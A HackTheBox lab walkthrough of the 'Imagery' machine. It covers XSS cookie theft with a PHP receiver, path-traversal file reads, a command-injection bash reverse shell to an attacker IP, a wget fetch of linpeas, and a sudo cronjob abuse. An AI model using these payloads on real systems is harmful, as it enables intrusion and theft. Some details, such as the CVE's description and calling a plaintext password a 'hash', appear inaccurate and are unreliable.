




# Imagery - HackTheBox Walkthrough

 

## Machine Information

- **Name:** Imagery
- **Difficulty:** Medium
- **Operating System:** Linux (Ubuntu)
- **IP Address:** 10.10.11.88

## Table of Contents

1. [Reconnaissance](#reconnaissance)
2. [Enumeration](#enumeration)
3. [Vulnerability Discovery](#vulnerability-discovery)
4. [Initial Exploitation](#initial-exploitation)
5. [Privilege Escalation](#privilege-escalation)
6. [Flags](#flags)

---

## Reconnaissance

### Nmap Scan

First, we perform a comprehensive Nmap scan to identify open ports and services:

```bash
nmap -p- -sC -sV -A 10.10.11.88
```


**Results:**
- **Port 22/tcp** - SSH (OpenSSH 9.7p1 Ubuntu)
- **Port 8000/tcp** - HTTP (Werkzeug httpd 3.1.3, Python 3.12.7)
  - Service: Image Gallery

The web application is running on port 8000 with Python/Werkzeug, indicating a Flask application.

See full scan results: [nmap.txt](raw-logs/nmap.txt)

---

## Enumeration

### Directory Enumeration

Using `dirsearch` to enumerate directories and files:

```bash
dirsearch -u http://10.10.11.88:8000 -o dirsearch.txt
```


**Discovered endpoints:**
- `/images` (401 Unauthorized)
- `/login` (405 Method Not Allowed)
- `/logout` (405 Method Not Allowed) 
- `/register` (405 Method Not Allowed)
- `/uploads/affwp-debug.log` (401 Unauthorized)
- `/uploads/dump.sql` (401 Unauthorized)

See full results: [dirsearch.txt](raw-logs/dirsearch.txt)

### Vulnerability Scanning with Nuclei

Running Nuclei to detect known vulnerabilities:

```bash
nuclei -u http://10.10.11.88:8000
```



**Key findings:**
- **CVE-2023-37582** - Critical vulnerability detected
- Missing security headers
- Email found: `support@imagery.com`

See full results: [nuclei.txt](raw-logs/nuclei.txt)

---

## Vulnerability Discovery

### CVE-2023-37582 - Cross-Site Scripting (XSS) Vulnerability

The Nuclei scan identified **CVE-2023-37582**, which is a vulnerability in the application. We attempted to exploit this using a proof of concept (POC).


Initial POC attempts were unsuccessful. We need to take a different approach.

### Cookie Stealing via XSS

Since the direct POC didn't work, we set up a PHP receiver to capture cookies through XSS:

#### Step 1: Create PHP Receiver

Create a simple PHP script to log cookies:

```php
<?php

if(isset($_GET['cookie'])){
    file_put_contents('cookies.txt', $_GET['cookie'] . "\n", FILE_APPEND);
}
?>
```

Save this as `receive.php` (see [php_receiver.php](raw-logs/php_receiver.php))

#### Step 2: Start HTTP Server

Start a Python HTTP server to host the receiver:

```bash
python -m http.server 9999
```


#### Step 3: Trigger XSS to Steal Cookie

The application made a request to our server:

```
10.10.11.88 - - [08/Nov/2025 08:05:03] "GET /receive.phpsession=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aQ8HxA.ENQBwfUrGKs53m92BKuvIwkXwqk HTTP/1.1" 404 -
```

**Success!** We captured the admin session cookie.

---

## Initial Exploitation

### Accessing Admin Panel

With the captured cookie, we can access the admin panel. We need to use **Burp Suite** to intercept and modify requests.


#### Step 1: Set Up Burp Suite

1. Configure browser to use Burp proxy
2. Intercept requests to the application
3. Add the captured session cookie



### Local File Inclusion (LFI) via Log Viewer

Once authenticated as admin, we discover a log viewer functionality with a vulnerable parameter.

#### Step 2: Exploit Path Traversal

The admin panel has a `get_system_log` endpoint that's vulnerable to path traversal:

```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/config.py
```


This allows us to read arbitrary files on the system!

#### Step 3: Extract Database Information

Read the database file to find user credentials:

```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/db.json
```


**Extracted credentials:**
```json
{
    "username": "testuser@imagery.htb",
    "password": "2c65c8d7bfbca32a3ed42596192384f6",
    "isAdmin": false,
    "displayId": "e5f6g7h8",
    "login_attempts": 0,
    "isTestuser": true,
    "failed_login_attempts": 0,
    "locked_until": null
}
```

Additionally found password hash: `iambatman`

### Logging In as User

Login to the application with the discovered credentials:


Success! We're logged in as a regular user.

### Command Injection via Image Processing

After logging in, we can upload and edit images. The image cropping functionality is vulnerable to command injection!

#### Step 4: Upload an Image

Upload any image file to the application.

#### Step 5: Intercept Crop Request

Use Burp Suite to intercept the image crop request and inject a reverse shell payload:

```bash
";bash -c '/bin/bash -i 5<> /dev/tcp/10.10.14.120/4444 0<&5 1>&5 2>&5' ;"
```


#### Step 6: Catch the Shell

Set up a netcat listener:

```bash
nc -lvnp 4444
```



**We have a shell!**

### Shell Stabilization

Stabilize the shell for better interaction:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then press `Ctrl+Z` and run:

```bash
stty raw -echo; fg
export TERM=xterm
```

### User Flag

Navigate to the user directory and capture the flag:

```bash
cat /home/*/user.txt
```


**User Flag:** `5d9c1d507a3f76af1e5c97a3ad1eaa31`

---

## Privilege Escalation

### Enumeration with LinPEAS

Upload and run LinPEAS to identify privilege escalation vectors:

```bash
# On attacker machine
python3 -m http.server 8080

# On target machine
wget http://10.10.14.120:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Sudo Privileges

Check what commands we can run with sudo:

```bash
sudo -l
```

We discover we can run **charcoal** with sudo!

### Exploiting Charcoal

Charcoal is a task scheduling utility. We can use it to schedule privileged tasks.

#### Step 1: Run Charcoal as Root

```bash
sudo charcoal
```

#### Step 2: Disable Password Requirement

Use the `-R` flag to make it run without password:

```bash
sudo charcoal -R
```


Found hash: `01c3d2e5bdaf6134cec0a367cf53e535` for user `supersmash`

#### Step 3: Add Cronjob to Copy Root Flag

Use charcoal's `auto add` command to create a cronjob that copies the root flag:

```bash
sudo charcoal auto add \
  --schedule "* * * * *" \
  --command "cp /root/root.txt /tmp/pwned.txt && chmod 777 /tmp/pwned.txt" \
  --name "pwned"
```

This creates a cronjob that runs every minute, copying the root flag to `/tmp/pwned.txt` with world-readable permissions.

#### Step 4: Wait and Read Root Flag

Wait for the cronjob to execute (up to 1 minute), then:

```bash
cat /tmp/pwned.txt
```



**Root Flag:** Successfully obtained!

---

## Flags

### User Flag
```
5d9c1d507a3f76af1e5c97a3ad1eaa31
```

### Root Flag
Located at `/root/root.txt` and copied to `/tmp/pwned.txt` via cronjob.

---

## Summary

This machine required:

1. **Reconnaissance** - Identifying the Flask web application on port 8000
2. **XSS Exploitation** - Using CVE-2023-37582 to steal admin session cookie
3. **Path Traversal/LFI** - Exploiting admin log viewer to read sensitive files
4. **Command Injection** - Injecting malicious commands through image processing
5. **Privilege Escalation** - Abusing sudo permissions on charcoal to schedule privileged cronjobs

### Key Takeaways

- Always check for XSS vulnerabilities in web applications, especially when dealing with user-generated content
- Admin panels often have powerful features that can be abused if not properly secured
- Image processing libraries can be dangerous if user input isn't sanitized
- Custom scheduling tools with sudo access are prime targets for privilege escalation
- Multiple chained vulnerabilities are often required to fully compromise a system

### Tools Used

- Nmap
- Dirsearch
- Nuclei
- Burp Suite
- Python HTTP Server
- LinPEAS
- Netcat

---

## References

- CVE-2023-37582: [https://nvd.nist.gov/vuln/detail/CVE-2023-37582](https://nvd.nist.gov/vuln/detail/CVE-2023-37582)
- HackTheBox: [https://www.hackthebox.com/](https://www.hackthebox.com/)

---

**Note:** This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.
